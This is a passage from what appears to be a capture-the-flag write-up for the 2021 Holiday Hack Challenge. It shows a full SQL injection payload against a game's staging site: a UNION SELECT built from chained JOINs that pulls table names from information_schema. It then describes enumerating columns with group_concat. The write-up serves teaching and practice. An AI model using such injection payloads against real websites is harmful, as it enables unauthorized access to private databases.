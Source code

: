 When we use the above URL with SQL injection payload, It shows the table name from information_schema.TABLES in the email field as we setup above. <br>

```sql
https://staging.jackfrosttower.com/detail/67,68 UNION SELECT * FROM (SELECT 9999)a 
JOIN (SELECT 8888)b 
JOIN (SELECT TABLE_NAME from information_schema.TABLES as email )c 
JOIN (SELECT 7777)d
JOIN (SELECT 6666)e 
JOIN (SELECT 5555)f 
JOIN (SELECT 4444)g --
```
<img src="../../images/hhc2021/image144.png" alt="drawing" width="400px"/>


Now we have additional "todo" table which may have our answer for "what job position does Jack plan to offer Santa". <br>
Now let's find the columns in the "todo" table using the same methodology but using the INFORMATION_SCHEMA.COLUMNS. <br>
The only difference here being, we concatenate all the column names as CSV using the <a href="https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php" target=_blank>group_concat()</a> function.<br>
